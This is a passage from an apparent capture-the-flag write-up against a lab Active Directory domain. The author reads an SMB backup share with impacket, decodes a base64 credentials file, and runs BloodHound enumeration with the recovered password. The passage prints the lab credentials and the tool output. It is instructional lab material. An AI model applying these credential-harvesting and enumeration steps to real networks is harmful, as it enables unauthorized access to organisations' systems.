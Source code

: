 Hm, interesting. So here we can see that we have `READ` permissions on the `backup` share, which seems pretty interesting. We can connect with `impacket-smbclient` to see its content:

```zsh
❯ impacket-smbclient spookysec.local/svc-admin:management2005@10.10.128.202
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# ls
[-] No share selected
# use backup
# ls
drw-rw-rw-          0  Sat Apr  4 21:08:39 2020 .
drw-rw-rw-          0  Sat Apr  4 21:08:39 2020 ..
-rw-rw-rw-         48  Sat Apr  4 21:08:53 2020 backup_credentials.txt
# get backup_credentials.txt
# exit
```

All right! So let's download this file and let's see its content:

```zsh
❯ ls
allUsers  backup_credentials.txt  hash  kerbrute  users

❯ cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

Ok, so it seems to be a `base64` encoded string, so let's decode it!

```zsh
❯ cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860
```

## Bloodhound

- - -

Nice! Now that we have these credentials we can run [bloodhound](https://github.com/fox-it/BloodHound.py) to see all the info more clearly:

```zsh
❯ python3 bloodhound.py -u backup -p 'backup2517860' -d spookysec.local -ns 10.10.128.202 -c all --zip
INFO: Found AD domain: spookysec.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: attacktivedirectory.spookysec.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: attacktivedirectory.spookysec.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 18 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 21 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: AttacktiveDirectory.spookysec.local
WARNING: Failed to get service ticket for AttacktiveDirectory.spookysec.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: [Errno Connection error (attacktivedirectory.spookysec.local:88)] [Errno -2] Name or service not known
```